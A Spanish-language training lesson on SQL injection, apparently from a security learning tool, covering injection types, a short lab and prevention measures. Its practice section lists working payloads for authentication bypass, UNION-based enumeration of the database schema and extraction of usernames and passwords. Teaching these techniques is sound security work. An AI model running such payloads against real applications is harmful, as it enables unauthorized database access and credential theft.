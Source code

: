 
# SQL Injection - Fundamentos y Práctica

## 🎯 Objetivo de la Lección
Aprender a identificar, explotar y prevenir vulnerabilidades de inyección SQL en aplicaciones web.

## 📚 Conceptos Clave

### ¿Qué es SQL Injection?
La inyección SQL es una vulnerabilidad que permite a un atacante interferir con las consultas que una aplicación realiza a su base de datos.

### Tipos de SQL Injection
1. **In-band SQLi** - Error-based y Union-based
2. **Blind SQLi** - Boolean-based y Time-based
3. **Out-of-band SQLi** - DNS y HTTP requests

## 🛠️ Práctica con BOFA

### Paso 1: Reconocimiento
```sql
' OR 1=1-- 
" OR 1=1-- 
admin'--
' UNION SELECT NULL,NULL--
```

### Paso 2: Enumeración
```sql
' UNION SELECT version(),database()--
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

### Paso 3: Explotación
```sql
' UNION SELECT username,password FROM users--
```

## 🧪 Laboratorio
1. Ejecuta el script `learn_sql_injection.py`
2. Analiza las diferentes payloads
3. Identifica qué técnicas son más efectivas
4. Practica la explotación manual

## ✅ Validación
- ¿Pudiste extraer información de la base de datos?
- ¿Entiendes la diferencia entre Union-based y Blind SQLi?
- ¿Sabes cómo prevenir estas vulnerabilidades?

## 🛡️ Prevención
- Usar prepared statements
- Validar y sanitizar inputs
- Implementar WAF
- Principio de menor privilegio en DB
